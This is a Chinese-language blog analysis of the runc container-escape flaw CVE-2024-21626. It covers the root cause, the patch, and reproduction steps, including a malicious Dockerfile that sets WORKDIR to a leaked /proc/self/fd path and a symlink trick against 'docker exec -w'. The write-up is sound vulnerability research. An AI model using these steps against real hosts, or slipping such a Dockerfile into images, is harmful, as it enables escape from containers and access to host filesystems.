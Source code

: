 

# CVE-2024-21626 容器逃逸漏洞分析

[](#TL-DR "TL; DR")TL; DR

最近公开了一个 runc 容器逃逸的公告，公告细节链接为： [https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)

从公告看漏洞影响范围是： `>=v1.0.0-rc93,<=1.1.11` , 补丁版本为：1.1.12，这里我的复现版本是：

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># root @ pwnable in ~ [16:27:23]<br>$ docker info \| grep "runc"<br> Runtimes: io.containerd.runc.v2 runc<br> Default Runtime: runc<br> runc version: v1.1.7-0-g860f061<br>``` |

然后今天看到，于是和 @explorer 和 @leommxj 简单看了一下。

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

从公告讲就是 `runc run` 或者 `runc exec` 的过程中有存在没有及时关闭的 `fd` ，导致文件描述符泄漏在容器环境中，用户可以通过这个文件描述来进行容器逃逸。

首先来做一个赛博考古，公告提到该漏洞是在 `v1.0.0-rc93` 这个版本引入的，在这个版本找到了两个打开 cgroup 地方。

一处是在这个 [commit](https://github.com/opencontainers/runc/commit/fad92bbffa9c13652c07f1966606089e28442a87) 中，在 `(m *manager) Apply(pid int) (err error)` 函数中加载了 cgroup，然后在 `func (p *initProcess) start()` 函数里调用到了。具体文件行号为 fs.go:339

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>if err := p.manager.Apply(p.pid()); err != nil {<br>	return newSystemErrorWithCause(err, "applying cgroup configuration for process")<br>}<br>``` |

[![image.png](assets/1706859213-4c8e3eca0764c99da545d2837588d8e8.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-dfd0b187a7a90ee33fe0907ee0221b6a-9f4d04.png "image.png")

此处在 rc93 这个版本 release 的

另外一处是在这个 [commit](https://github.com/opencontainers/runc/commit/e0c0b0cf321252b8d964fc64d62d21f107615304) 中，但是这个 commit 是 rc92 中 release 的，由于我和 @leoomxj 都暂时没看到这个 commit 打开的 cgroup 是否 close 掉了，所以这里也提一句。

[![image.png](assets/1706859213-47467ce51cfe4c86f34d94ad0c81e7cc.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-fdcb1245e8a627b547417799eadd58ee-172ae7.png "image.png")

经过仔细阅读公告，我们可以了解到问题的根源在于未及时清理打开的 `cgroup` 文件描述符（fd），导致泄漏。这在 init/exec 过程中表现为在 runc 的 `/proc/self/fd/7` 中可以找到被打开的 `cgroup`，但在后续启动的二进制文件中却被关闭了。

到这，根据公告的利用过程其思路核心为在 `runc` 创建子进程的时候且 exec(run) 即将执行的二进制文件还没关闭之前，将 `cwd`设置为 `/proc/self/fd/7` , 这个这个时候这个二进制程序进程的 `/proc/pid/cwd` 就会指向容器外的`/sys/fs/cgroup`

接着我们开始做一点简单的漏洞复现

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0 "漏洞复现")漏洞复现

公告中提到了如果设置 cwd 为 `/proc/self/fd` 就会导致逃逸

> If the container was configured to have process.cwd set to /proc/self/fd/7/ (the actual fd can change depending on file opening order in runc), the resulting pid1 process will have a working directory in the host mount namespace and thus the spawned process can access the entire host filesystem.

### [](#attack-2-runc-exec-%E8%BF%87%E7%A8%8B-docker-exec "attack 2 runc exec 过程 (docker exec)")attack 2 runc exec 过程 (docker exec)

那么做如下操作：

[![image-20240201211519027](assets/1706859213-185564030f4f68ff6f037d77d77fc36b.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-1ee7b4735f493775570f4ed53cf59e47-74d718.png "image-20240201211519027")

这时候发现我们当前的 cwd 目录其实就是在 `/sys/fs/cgroup` 中，而且是容器外的 `cwd`，于是我们使用多个 `../` 就能读取主机的文件系统文件。

[![image-20240201211835141](assets/1706859213-29cea8362c068c35ff40b5508aad4cd3.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-9848f9fce7b55b711bf45a9a66355abe-617837.png "image-20240201211835141")

明显能看到 docker exec 的时候 `/proc/self/fd/7` 确实指向了 `cgroup` , 于是以此文章提出了一种逃逸场景

> The same fd leak and lack of verification of the working directory in attack 1 also apply to `runc exec`. If a malicious process inside the container knows that some administrative process will call `runc exec` with the `--cwd` argument and a given path, in most cases they can replace that path with a symlink to `/proc/self/fd/7/`. Once the container process has executed the container binary, `PR_SET_DUMPABLE` protections no longer apply and the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.

> `runc exec` defaults to a cwd of `/` (which cannot be replaced with a symlink), so this attack depends on the attacker getting a user (or some administrative process) to use `--cwd` and figuring out what path the target working directory is. Note that if the target working directory is a parent of the program binary being executed, the attacker might be unable to replace the path with a symlink (the `execve` will fail in most cases, unless the host filesystem layout specifically matches the container layout in specific ways and the attacker knows which binary the `runc exec` is executing).

具体场景为，攻击者已经有了容器内 shell，然后需要主机外有 `docker exec` 命令，且需要用到 `cwd` 参数，然后攻击者得判断或者指定用户即将设置的 `cwd` 路径和当前这个 runc 是不是也是 fd 为 7 的时候指向 `cgroup` ，然后提前设置好符号链接指向 `/proc/self/fd/7` , 复现流程如下：

假设我即将设置的 cwd 为 /tmp/hacker, 在容器中执行以下命令

-   `ln -s /proc/self/fd/7 /tmp/hacker`

然后容器外执行一下命令

-   `docker exec -w /tmp/fuck -it cve-2024-21626 /bin/bash`

此时就会发现 cwd 已经是外面的/sys/fs/cgroup 了

[![image-20240201212846550](assets/1706859213-c1e30c9bae0afd67bfc1f478439be04f.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-0aba4477f88cdbe26e5e4b86c4ebc632-d327a5.png "image-20240201212846550")

## [](#attack-1-docker-build-gt-%E6%81%B6%E6%84%8F%E9%95%9C%E5%83%8F "attack 1 (docker build) -> 恶意镜像")attack 1 (docker build) -> 恶意镜像

这里也提一下 docker builid 镜像的攻击手段，我们从 [https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/](https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/) 这个博客可以看到受害者执行一个 run 镜像的操作就被容器逃逸了。

这里的我的 Dockerfile 内容如下，此时我环境泄漏的 fd 是 8，这个我是试出来的。

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>FROM ubuntu:22.04<br>RUN ls -al ./<br>WORKDIR /proc/self/fd/8<br>``` |

首先 build 我的恶意镜像

-   `docker build -t test .`

然后执行恶意镜像

-   `docker run --rm -it test bash`

就会发现此时 `cwd` 就是在 cgroup，通过 `../../` 就能穿越到 host 目录中

[![image-20240201213539584](assets/1706859213-456ab600300aab4355802c776eb45dff.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-81fb372b81ebd7126f5992037d52b6dd-054740.png "image-20240201213539584")

在漏洞修复之前，小心恶意镜像投毒哦 ~

## [](#%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90 "补丁分析")补丁分析

从这个 [2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e](https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e) commit 中能看到几个比较明显的安全补丁（还有缓解措施）

-   使用 `O_CLOEXEC` flag 来打开文件，避免子进程继承了父进程的 fd

[![image.png](assets/1706859213-84d39f31d832fab900ad7e95891a85f2.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-3d247d8ab3a957ac8360bb6ab274bc26-0d73a8.png "image.png")

详情 commit 链接： [https://github.com/opencontainers/runc/commit/89c93ddf289437d5c8558b37047c54af6a0edb48](https://github.com/opencontainers/runc/commit/89c93ddf289437d5c8558b37047c54af6a0edb48)

-   新增了 `verifyCwd` 函数，并在 `finalizeNamespace` 中增加调用了 `verifyCwd` 检查是否 cwd 在容器 namespace 外

[![image.png](assets/1706859213-3f8d86adea1be202262f8efb3f28a029.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-cb49333e16be42b5cb86ebac0feac568-58854c.png "image.png")

-   新增 `UnsafeCloseFrom` 函数， `linuxSetnsInit` & `linuxStandardInit` 中增加了部分该函数的调用，关闭当前进程中大于或等于 minFd 的所有文件描述符，除了那些对 Go 运行时关键（例如 netpoll 管理描述符），

[![image.png](assets/1706859213-c4bbf47a865432efece6ffdf9576ece6.png)](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-e8cef47e36037879dc641a0d85a0db18-3fa173.png "image.png")

## [](#%E7%96%91%E9%97%AE "疑问")疑问

1.  究竟是哪个 commit 是真正引入漏洞的，有没有同学深入再研究一下。
2.  为什么提到了 `PR_SET_DUMPABLE` 这个，我印象中这个是 core dump 相关的，在 runc 中这个起了什么作用？

最后吐槽一句，如果这个洞早几天出我们 RWCTF 体验赛的 Be-a-Docker-Escaper 系列就又能多一个题了。

## [](#Reference-link "Reference link")Reference link
